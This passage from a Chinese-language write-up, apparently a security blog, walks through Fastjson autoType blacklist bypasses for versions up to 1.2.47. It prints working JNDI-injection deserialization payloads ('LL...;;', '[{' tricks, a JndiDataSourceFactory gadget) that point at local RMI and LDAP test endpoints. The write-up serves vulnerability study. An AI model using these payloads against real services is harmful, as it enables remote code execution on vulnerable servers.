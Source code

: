 综上所述,可以使用双写L和;的方式绕过

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        JSON.parseObject("{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hello\",\"autoCommit\":true}");
```

## <=1.2.43

该版本对于双写LL的poc进行了判断和限制

![image-20220610231237572](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610231237572.png)



```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
JSON.parseObject({"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"rmi://127.0.0.1:1099/hello","autoCommit":true}");
```

但是可以通过添加`[`和`[{`的方式来进行绕过,添加`[`可以理解,但是添加`[{`还不甚了解

原因是为了让这个地方的token=14从而绕过数组转换抛出异常

关于fastjson中token的解析https://blog.csdn.net/qq_45854465/article/details/120626835

![image-20220611160647239](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220611160647239.png)

## <=1.2.45

出现了新的利用类直接绕过了黑名单限制`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`

> 但是mybatis版本必须小于3.5.6

该类中的`setProperties()`方法存在Jndi注入的问题

![image-20220611174720213](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220611174720213.png)

新建一个LDAP服务,并且将远程对象引用绑定上去

![image-20220611170739137](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220611170739137.png)

写段代码测试一下

![image-20220611174751726](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220611174751726.png)

利用fastjson构造

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
JSON.parseObject("{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"ldap://localhost:10389/cn=test,dc=example,dc=com\"}}");
```

## **<=1.2.47**   ---(无需AutoTypeSupport)
